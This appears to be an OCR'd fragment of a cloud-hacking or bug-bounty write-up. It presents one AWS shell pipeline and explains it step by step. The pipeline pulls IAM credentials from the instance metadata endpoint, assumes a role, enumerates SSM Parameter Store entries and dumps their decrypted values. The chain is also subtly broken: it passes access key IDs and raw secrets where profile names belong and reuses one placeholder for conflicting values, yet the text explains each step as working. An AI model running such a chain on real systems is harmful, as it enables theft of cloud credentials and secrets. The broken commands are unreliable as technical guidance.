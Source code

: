 3. `xargs -I {}`: This command sets up a placeholder `{}` that will be replaced with each value from the previous `jq` command.



```
imds-helper http://169.254.169.254/latest/meta-data/iam/security-credentials/{} | jq -r '.AccessKeyId' | xargs -I {} aws sts assume-role --role-arn <role_arn> --role-session-name "bugbounty" --external-id <external_id> --region <region> --profile {} | jq -r '.Credentials.AccessKeyId, .Credentials.SecretAccessKey, .Credentials.SessionToken' | xargs -I {} aws ssm describe-parameters --query 'Parameters[].Name' --region <region> --profile {} | jq -r '.[]' | xargs -I {} aws ssm get-parameter --name {} --with-decryption --region <region> --profile {} | jq -r '.Parameter.Value'
```



1. `imds-helper http://169.254.169.254/latest/meta-data/iam/security-credentials/{}: This command uses` imds-helper`to make a request to the Instance Metadata Service (IMDS) endpoint with a placeholder`{}` that will be replaced with a specific IAM role name. It retrieves the security credentials associated with the specified IAM role.
    
2. `jq -r '.AccessKeyId'`: This `jq` command processes the JSON response from the previous command and extracts the `AccessKeyId` field from it. The `-r` option outputs the result in raw (non-quoted) format.
    
3. `xargs -I {} aws sts assume-role --role-arn <role_arn> --role-session-name "bugbounty" --external-id <external_id> --region <region> --profile {}`: This command uses `xargs` to substitute the IAM role name obtained from the previous `jq` command into the subsequent `aws sts assume-role` command. It assumes the specified IAM role, generating temporary security credentials for the assumed role. The `--role-arn`, `--role-session-name`, `--external-id`, `--region`, and `--profile` options are provided to configure the role assumption.
    
4. `jq -r '.Credentials.AccessKeyId, .Credentials.SecretAccessKey, .Credentials.SessionToken'`: This `jq` command processes the JSON response from the previous `aws sts assume-role` command and extracts the `AccessKeyId`, `SecretAccessKey`, and `SessionToken` fields from it. The `-r` option outputs the results in raw (non-quoted) format.
    
5. `xargs -I {} aws ssm describe-parameters --query 'Parameters[].Name' --region <region> --profile {}`: This command uses `xargs` to substitute the IAM profile name obtained from the previous `jq` command into the subsequent `aws ssm describe-parameters` command. It retrieves a list of parameter names from AWS SSM Parameter Store. The `--query`, `--region`, and `--profile` options are provided to configure the command.
    
6. `jq -r '.[]'`: This `jq` command processes the JSON response from the previous `aws ssm describe-parameters` command and extracts the values of the parameter names. The `-r` option outputs the results in raw (non-quoted) format.
    
7. `xargs -I {} aws ssm get-parameter --name {} --with-decryption --region <region> --profile {}`: This command uses `xargs` to substitute each parameter name obtained from the previous `jq` command into the subsequent `aws ssm get-parameter` command. It retrieves the values of each parameter from AWS SSM Parameter Store. The `--name`, `--with-decryption`, `--region`, and `--profile` options are provided to configure the command.
    
8. `jq -r '.Parameter.Value'`: This `jq` command processes the JSON response from the previous `aws ssm get-parameter` command and extracts the values of the parameters. The `-r` option outputs the results in raw (non-quoted) format.


